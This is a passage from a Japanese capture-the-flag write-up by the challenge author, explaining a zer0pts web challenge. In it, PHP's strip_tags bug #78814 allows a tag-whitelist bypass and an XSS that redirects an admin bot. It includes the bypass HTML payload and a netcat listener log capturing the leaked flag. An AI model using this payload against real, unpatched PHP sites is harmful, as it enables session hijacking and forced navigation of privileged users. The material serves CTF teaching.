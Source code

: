 ```html
<audio controls src=""></audio><a/udio href="(URL)" id="like">test</a/udio><audio a=""></audio>
```

admin に好きな URL を踏ませることができます。

```
$ nc -lvp 8000
Listening on [0.0.0.0] (family 0, port 8000)
Connection from ec2-3-112-201-75.ap-northeast-1.compute.amazonaws.com 33926 received!
GET / HTTP/1.1
︙
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: zer0pts{M4sh1m4fr3sh!!}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
︙
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

```
zer0pts{M4sh1m4fr3sh!!}
```

---

最終的な正答チーム数は 13 チームで、最初に解いたチームは The Duck でした。

> **警告**
> 
> XSS攻撃を防ぐ目的で、この関数を使うべきではありません。 `htmlspecialchars()` のような、より適切な関数、 もしくは、出力のコンテキストによっては他の手段を使うようにしてください。
> 
> ([`strip_tags()` の公式ドキュメント](https://www.php.net/manual/ja/function.strip-tags.php))

はい。

PHP + XSS 問です。PHP の [Bug #78814: strip_tags allows / in tag name, allowing whitelist bypass in browsers](https://bugs.php.net/bug.php?id=78814) というバグを利用して XSS で admin を適当な URL に遷移させる問題でした。これは [PHP 7.4.1](https://www.php.net/ChangeLog-7.php#7.4.1) で修正されており、添付している `Dockerfile` の `FROM php:7.4.0-apache` から、なぜちょっと古めのバージョンを使っているんだろうと疑問を持ってリリースログを調べてみたり、`strip_tags` を見てなんかバイパスできないかなと PHP のバグトラッカーを調べてみたりといった流れで辿り着いてもらえればいいなあという感じでした。このバグはふるつきさんに紹介していただいたものでした。また、クローラ部分は ptr-yudai さんに書いていただきました。

フラグは[マシマフレッシュ](https://showbyrock-anime-m.com/)と読みます。